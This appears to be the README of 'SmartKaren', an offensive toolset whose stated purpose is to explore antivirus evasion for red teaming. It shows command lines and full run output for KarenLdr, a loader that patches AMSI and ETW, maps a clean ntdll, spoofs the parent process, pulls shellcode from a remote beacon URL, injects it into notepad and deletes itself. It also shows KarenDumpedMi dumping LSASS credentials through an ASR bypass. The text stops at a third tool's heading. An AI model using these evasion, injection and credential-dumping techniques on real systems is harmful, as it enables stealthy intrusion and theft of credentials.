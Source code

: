 # SmartKaren
A series of custom offensive toolset and utilities written in C# and Rust. This project is developed to explore AV evasion techniques for aiding red teaming operations. 

## KarenLdr
KarenLdr is a compact Process Injector with various evasion techniques such as AMSI bypass and ETW patching built-in to it. To evade static signature, KarenLdr leverages low level NT*API calls (with the exception of AMSI & ETW patching) and a modified version of D/Invoke library. 

At it's core, KarenLdr leverages a combination of `NtMapViewSection` and `NtQueueApcThread` to steer away from the classic process injection method of `VirtualAlloc`, `VirtualProtect` and `CreateThread` that are heavily signatured. To achieve this, the remote process is spawned under a suspended state by tampering the Process Creation Flag with `CREATE_SUSPENDED`. This technique is useful in bypassing Attack Surface Reduction (ASR) rule that blocks the creation of threads.

At runtime, a fresh copy of `ntdll.dll` is loaded into the process. The original ntdll.dll that was hooked by EDR is left untouched. All NT*API are then exported and called from the clean copy of ntdll.dll instead. This EDR evasion method is especially effective because the integrity of EDR hooks are not tampered with. Alternatively, direct syscalls can also be enabled by specifying the `--syscall` flag.

Additionally, it also supports Parent Process ID (PPID) Spoofing, allowing the sacrificial process to spawn under an arbitrary process using it's PID. If the target `-t, --target` is not specified, it will perform self-injection instead. At the end of execution, the executable file will be wipped from disk automatically to erase traces.

**Future Enhancement:** Indirect Syscalls & Threadless Injection
```
C:\>KarenLdr.exe -u "https://192.168.231.128:443/beacon.bin" -t notepad -p 9524 -k 
     _        _______  _______  _______  _        _        ______   _______
    | \    /\(  ___  )(  ____ )(  ____ \( (    /|( \      (  __  \ (  ____ )
    |  \  / /| (   ) || (    )|| (    \/|  \  ( || (      | (  \  )| (    )|
    |  (_/ / | (___) || (____)|| (__    |   \ | || |      | |   ) || (____)|
    |   _ (  |  ___  ||     __)|  __)   | (\ \) || |      | |   | ||     __)
    |  ( \ \ | (   ) || (\ (   | (      | | \   || |      | |   ) || (\ (
    |  /  \ \| )   ( || ) \ \__| (____/\| )  \  || (____/\| (__/  )| ) \ \__
    |_/    \/|/     \||/   \__/(_______/|/    )_)(_______/(______/ |/   \__/

 KarenLdr: D/Invoke + NT*API + Manual Mapping + Direct Syscall + AMSI & ETW Patching + PPID Spoofing

  -u, --url      Required. Remote URL address for raw shellcode.

  -t, --target   Specify the target/victim process. Default: Self-injection

  -p, --parent   Spoof victim process under a Parent Process ID (This option is ignored for self-injection)

  -k, --kill     Enable self-destruct to auto wipe file from disk.

  -s, --syscall  Enable Direct Syscall. Default: Manual Mapping

  -h, --help     Display help screen manual.
  
|--------------
| Payload       : https://192.168.231.128:443/beacon.bin
| Process       : C:\Windows\System32\notepad.exe
| PPID Spoofing : 9524
| Self Destruct : True
|--------------

[>] Patching Event Tracing for Windows (ETW)
    |-> Address of ntdll.dll: 0x7FFD8DEF0000
    |-> Location of EtwEventWrite(): 0x7FFD8DF3F1F0
    |-> Patching Memory: 0x00000020 -> 0x04
    |-> Restoring Memory: 0x04 -> 0x00000020

[>] Patching Anti Malware Scan Interface (AMSI)
    |-> Address of AmsiScanBuffer(): 0x7FFD75B83860
    |-> Successfully Patched AMSI!

[>] CreateProcessW()
    |-> Target Process Created!
    |-> PID: 22232

[>] Fetching Payload
    |-> Payload Retrieved Successfully!

[>] Resolving Addresses of ntdll.dll
    |-> Original ntdll.dll: 0x7ffd8def0000
    |-> New copy of ntdll.dll: 0x29cb56e0000

[>] NtCreateSection()
    |-> New Section Created!

[>] NtMapViewOfSection()
    |-> New Section Mapped!

[>] Copied Shellcode to Memory!

[>] NtMapViewOfSection()
    |-> Memory Region Mapped to Target Process!
    |-> Base Address: 0x209ED370000

[>] NtQueueApcThread()
    |-> Queueing APC!

[>] NtSetInformationThread()
    |-> Thread Priority Set!

[>] NtResumeThread()
    |-> Resuming Thread!

[>] DeleteProcThreadAttributeList()
    |-> Deleting Process Artifacts!

[>] CloseHandle()
    |-> Closing Process Handle!

[>] CloseHandle()
    |-> Closing Thread Handle!

[>] KarenLdr.exe removed from disk!
```

## KarenDumpedMi
KarenDumpedMi demonstrates 2 different methods to dump the Local Security Authority Subsystem Service (LSASS) process from memory. This requires `SYSTEM*` privileges and AMSI bypass to interact with the LSASS process.

Method 1 leverages `MiniDumpWriteDump` from `Dbghelp.dll` to perform a user-mode minidump. To evade behavioural detection, spoof the PPID to `winlogon.exe` and set the spawnto sacrificial process to either `WerFault.exe` or `svchost.exe`.

Method 2 leverages `WmiPrvSE.exe` and shellcode injection to dump LSASS on an endpoint with the ASR rule of "Block credential stealing from the Windows local security authority subsystem (lsass.exe)" enabled.
```
C:\>KarenDumpedMi.exe
     _        _______  _______  _______  _        ______            _______  _______  _______  ______   _______ _________
    | \    /\(  ___  )(  ____ )(  ____ \( (    /|(  __  \ |\     /|(       )(  ____ )(  ____ \(  __  \ (       )\__   __/
    |  \  / /| (   ) || (    )|| (    \/|  \  ( || (  \  )| )   ( || () () || (    )|| (    \/| (  \  )| () () |   ) (
    |  (_/ / | (___) || (____)|| (__    |   \ | || |   ) || |   | || || || || (____)|| (__    | |   ) || || || |   | |
    |   _ (  |  ___  ||     __)|  __)   | (\ \) || |   | || |   | || |(_)| ||  _____)|  __)   | |   | || |(_)| |   | |
    |  ( \ \ | (   ) || (\ (   | (      | | \   || |   ) || |   | || |   | || (      | (      | |   ) || |   | |   | |
    |  /  \ \| )   ( || ) \ \__| (____/\| )  \  || (__/  )| (___) || )   ( || )      | (____/\| (__/  )| )   ( |___) (___
    |_/    \/|/     \||/   \__/(_______/|/    )_)(______/ (_______)|/     \||/       (_______/(______/ |/     \|\_______/

[>] Finding Alive Process
    |-> Found lsass.exe
    |-> PID: 920

[>] Finding MiniDumpWriteDump
    |-> Location of MiniDumpWriteDump(): 0x7FFD7E8F6C50

[>] Getting Handles
    |-> Process Handle: 0x2CC
    |-> File Handle (karen.dmp): 0x2C4

[>] Invoking MiniDumpWriteDump
    |-> Successfully Called MiniDumpWriteDump()
    |-> COMPLETED! You can now parse karen.dmp!
    
C:\>KarenDumpedMi.exe
     _        _______  _______  _______  _        ______            _______  _______  _______  ______   _______ _________
    | \    /\(  ___  )(  ____ )(  ____ \( (    /|(  __  \ |\     /|(       )(  ____ )(  ____ \(  __  \ (       )\__   __/
    |  \  / /| (   ) || (    )|| (    \/|  \  ( || (  \  )| )   ( || () () || (    )|| (    \/| (  \  )| () () |   ) (
    |  (_/ / | (___) || (____)|| (__    |   \ | || |   ) || |   | || || || || (____)|| (__    | |   ) || || || |   | |
    |   _ (  |  ___  ||     __)|  __)   | (\ \) || |   | || |   | || |(_)| ||  _____)|  __)   | |   | || |(_)| |   | |
    |  ( \ \ | (   ) || (\ (   | (      | | \   || |   ) || |   | || |   | || (      | (      | |   ) || |   | |   | |
    |  /  \ \| )   ( || ) \ \__| (____/\| )  \  || (__/  )| (___) || )   ( || )      | (____/\| (__/  )| )   ( |___) (___
    |_/    \/|/     \||/   \__/(_______/|/    )_)(______/ (_______)|/     \||/       (_______/(______/ |/     \|\_______/

[>] Finding Alive Process
    |-> Found lsass.exe
    |-> PID: 920

[>] Finding MiniDumpWriteDump
    |-> Location of MiniDumpWriteDump(): 0x7FFD7E8F6C50

[>] Getting Handles
    |-> Unable to Open Process Handle!

[>] Method 1 Failed! Trying Method 2
    |-> Dumping LSASS With ASR Bypass!

[>] Spawning WmiPrvSE.exe
    |-> PID: 20856

[>] COMPLETED! You can now parse lsass.dmp!
```

## Karen2Gadget
